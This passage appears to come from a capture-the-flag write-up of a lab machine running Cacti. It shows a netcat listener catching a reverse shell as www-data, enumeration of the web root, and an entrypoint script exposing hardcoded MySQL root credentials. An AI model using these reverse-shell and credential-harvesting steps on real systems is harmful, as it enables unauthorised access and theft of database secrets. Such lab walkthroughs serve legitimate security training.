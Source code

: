 #### Listener

```console
toasty@parrot$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.231] from (UNKNOWN) [10.10.11.211] 37132
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.1$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We can see we have access as `www-data` now.

### Machine Enumeration

Let's get a feel of our environment:

```console
bash-5.1$ pwd
/var/www/html
bash-5.1$ ls -a  
ls -a 
.
..
.mdl_style.rb
.mdlrc
.rnd
CHANGELOG
LICENSE
README.md
about.php
...SNIP
typescript
```

There is a lot of files in the `/var/www/html` directory but one that revealed crucial information was the `typescript` file:

#### Typescript file

```console
bash-5.1$ ls /
bin   dev	     etc   lib	  media  opt   root  sbin  sys	usr
boot  entrypoint.sh  home  lib64  mnt	 proc  run   srv   tmp	var
bash-5.1$ cat entrypoint.sh
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
	set -- apache2-foreground "$@"
fi

exec "$@"
```